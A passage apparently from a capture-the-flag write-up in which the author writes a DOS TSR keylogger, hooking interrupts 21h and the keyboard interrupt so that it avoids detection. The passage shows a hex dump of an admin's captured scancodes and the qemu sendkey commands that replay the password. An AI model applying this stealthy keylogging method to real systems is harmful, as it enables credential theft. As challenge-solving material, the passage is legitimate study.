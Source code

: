 ```
already_msg	db 'KEYLOG already installed$'

end	Start
```

In particular I changed the following things:
- Hook the `21h` interrupt to check if `hv21.exe` overrites the keyboard interrupt
  - If so, increase a variable and save the `hv21.exe` handler
- In the keyboard interrupt handler log the keystroke to a buffer (buffer size needed to be increased)
  - Check if `hv21.exe` overwrote the handler and if so call that handler after logging (this is needed so that no
    change gets detected)
- Use [TSR](https://en.wikipedia.org/wiki/Terminate-and-stay-resident_program) to keep the keylogger alive

With this I obtained the keystrokes of the admins credentials:

```
00000000  38 18 98 b8 19 99 04 84  13 93 38 1e 9e b8 14 94  |8.........8.....|
00000010  18 98 13 93 1c 9c 1d 02  82 9d 38 02 82 b8 38 1f  |..........8...8.|
00000020  9f b8 16 96 19 99 19 99  12 92 13 93 2a 39 b9 aa  |............*9..|
00000030  2a 1f 9f aa 12 92 2e ae  16 96 13 93 12 92 38 39  |*.............89|
00000040  b9 b8 19 99 38 1e 9e b8  06 86 06 86 11 91 38 18  |....8.........8.|
00000050  98 b8 13 93 20 a0 38 03  83 b8 1d 05 85 9d 1d 09  |.... .8.........|
00000060  89 9d 17 97 2a 39 b9 aa  23 a3 18 98 19 99 12 92  |....*9..#.......|
00000070  2a 39 b9 aa 17 97 14 94  2a 2b ab aa 1f 9f 2a 35  |*9......*+....*5|
00000080  b5 aa 26 a6 18 98 31 b1  22 a2 2a 35 b5 aa 12 92  |..&...1.".*5....|
00000090  31 b1 18 98 16 96 22 a2  23 a3 14 94 1d 06 86 9d  |1.....".#.......|
000000a0
```

Those are the scanlines that the admin entered. Now, I converted those scanlines manually to keystrokes that I could
feed to qemu to enter the password.

```
sendkey alt-o
sendkey p
sendkey 3
sendkey r
sendkey alt-a
sendkey t
sendkey o
sendkey r
sendkey ret
sendkey ctrl-1
sendkey alt-1
sendkey alt-s
sendkey u
sendkey p
sendkey p
sendkey e
sendkey r
sendkey shift-spc
sendkey shift-s
sendkey e
sendkey c
sendkey u
sendkey r
sendkey e
sendkey alt-spc
sendkey p
sendkey alt-a
sendkey 5
sendkey 5
```